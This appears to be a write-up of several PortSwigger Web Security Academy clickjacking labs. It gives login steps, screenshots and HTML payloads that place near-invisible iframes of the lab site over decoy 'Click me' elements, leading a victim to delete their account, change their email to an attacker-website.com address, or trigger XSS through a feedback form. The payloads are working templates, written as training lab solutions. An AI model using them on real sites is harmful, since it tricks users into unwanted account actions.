

**Step1:**

Login to your account

**Step2:**

Go to exploit server and add iframe and a div which is used as a button

**Step3:**

Craft a frame using basic html and css to match it exactly at delete account button.

In my case this css styling works

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 550px;
        opacity:0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a12005d0475fa9580a61763005600cf.web-security-academy.net/my-account"></iframe>
```



Further decrease the opacity to 0.0001

Now store exploit and deliver it to victim



And the lab is solved



**Step 1:**

Login with given credential



Store the below script to change email 

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index:1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a02002b034b51fb8058ad67009100a7.web-security-academy.net/my-account?email=hello3@attacker-website.com"></iframe>
```

Adjust the value according to system window screen



Store and deliver it to victim. The lab will solve after few second or minute
If payload not working the url encode the email




**Step1 :**

login with given credential



In exploit server paste the exploit and deliver it to victim. I will url encode the email then it work for me

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index:1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a4700bf0467df5d81849e28007f0053.web-security-academy.net/my-account?email=%68%65%6c%6c%6f%33%40%61%74%74%61%63%6b%65%72%2d%77%65%62%73%69%74%65%2e%63%6f%6d"></iframe>
```





**Step1:**

Submit a feedback form with print in name column …if check in which input box an xss exist start with name 



We can see we have an xss here

Now we use script in previous challenge only make 2 change one increase top because button is at bottom…secondly we want a user to direct go to button when page load for this we append url with #<id of button tag>



Here it is feedbackResult



To find all variable name we submit the form and in burpsuite we have clear name


so our script look like

```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:620px;
        left:80px;
        z-index:1;
    }
</style>
<div>Click me</div>
<iframe  src="https://0a9a008a04590dd480661c9200cc003d.web-security-academy.net/feedback?name=&email=hell%40nothing.com&subject=s&message=1#feedbackResult"></iframe>
```

Store and deliver it to victim to solve the lab. I have url encode the name value and email.





**Step1:**

Login with credential.



**Step2:**

We can see here is a delete button when we click on it we have



So we write a iframe in a say that first we click on  delete then yes

If we see the url we have for my account

`https://0ae1008f040bcbe18327738f00ca0020.web-security-academy.net/my-account?id=wiener`

For delete we have

`https://0ae1008f040bcbe18327738f00ca0020.web-security-academy.net/my-account/delete`

Now we Design an iframe the blow one is for my computer…
Store the iframe



```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:65px;
		z-index: 1;
	}
   .secondClick {
		top:292px;
		left:195px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0ae1008f040bcbe18327738f00ca0020.web-security-academy.net/my-account"></iframe>
```


